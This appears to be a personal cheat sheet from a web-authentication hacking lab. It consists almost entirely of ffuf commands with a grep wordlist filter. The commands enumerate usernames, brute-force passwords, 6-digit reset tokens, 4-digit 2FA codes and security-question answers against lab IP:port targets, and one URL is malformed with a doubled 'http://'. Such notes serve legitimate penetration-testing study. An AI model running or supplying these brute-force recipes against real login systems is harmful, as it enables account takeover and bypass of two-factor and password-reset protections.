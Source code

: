 ____

#  Differing Error Messages

```bash
ffuf -w /usr/share/seclists/Usernames/xato-net-10-million-usernames.txt -u http://83.136.254.47:56265/index.php -X POST -d "username=FUZZ&password=invalid" -fr "Unknown user" -H "Content-Type: application/x-www-form-urlencoded"
```

# Brute-Forcing Passwords

- contains at least one upper-case character
- contains at least one lower-case character
- contains at least one digit
- minimum length of 10 characters

```bash
grep '[[:upper:]]' /usr/share/seclists/Passwords/Leaked-Databases/rockyou.txt | grep '[[:lower:]]' | grep '[[:digit:]]' | grep -E '.{10}' > custom_wordlist.txt
```

```bash
ffuf -w ./custom_wordlist.txt -u http://94.237.57.154:37595/index.php -X POST -H "Content-Type: application/x-www-form-urlencoded" -d "username=admin&password=FUZZ" -fr "Invalid username or password."
```

# Brute-Forcing Password Reset Tokens

```bash
ffuf -w /usr/share/seclists/Fuzzing/6-digits-000000-999999.txt -u http://http://83.136.254.47:36180/reset_password.php?token=FUZZ -fr "The provided token is invalid"
```

# Brute-Forcing 2FA Codes

```bash
ffuf -w /usr/share/seclists/Fuzzing/4-digits-0000-9999.txt -u http://94.237.50.176:35539/2fa.php -X POST -H "Content-Type: application/x-www-form-urlencoded" -b "PHPSESSID=39fap95ns90q60bq5r570nnskf" -d "otp=FUZZ" -fr "Invalid 2FA Code"
```

# Vulnerable Password Reset

```bash
ffuf -w ./city_wordlist.txt -u http://83.136.254.37:41526/security_question.php -X POST -H "Content-Type: application/x-www-form-urlencoded" -b "PHPSESSID=avengbtka78s63jkgpf2i5g3il" -d "security_response=FUZZ" -fr "Incorrect response."
```